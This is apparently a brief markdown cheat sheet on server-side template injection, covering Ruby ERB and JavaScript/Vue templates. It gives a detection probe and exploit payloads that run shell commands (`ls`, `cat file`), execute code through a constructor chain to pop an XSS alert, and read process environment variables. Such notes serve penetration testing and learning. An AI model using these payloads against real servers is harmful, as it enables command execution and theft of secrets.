 # SSTI  
*  [Ruby erb injection](#ruby-erb-injection)  
   *  [Find](#find)
   *  [Exploit](#exploit)   
*  [JS template injection](#js-template-injection)  
   *  [Exploit](#exploit)  
   
# Ruby erb injection
The erb(ruby-based) template injection.  

## Find  
```ruby
// based in ERB documentation
<%= syntax of Ruby statement %>
```
`<%= 2*2 %>` to test whether get the result of 4.  

## Exploit
```ruby
// <%= is same as <?=
<%=`ls`%>
<%=`cat file`%>
```

# js template injection
```{{ code }}```  
  
## Exploit
```js
{{ constructor.constructor("alert('xss')")() }}
{{ process.env.global_variable }}
```
[Reference](https://github.com/dotboris/vuejs-serverside-template-xss)
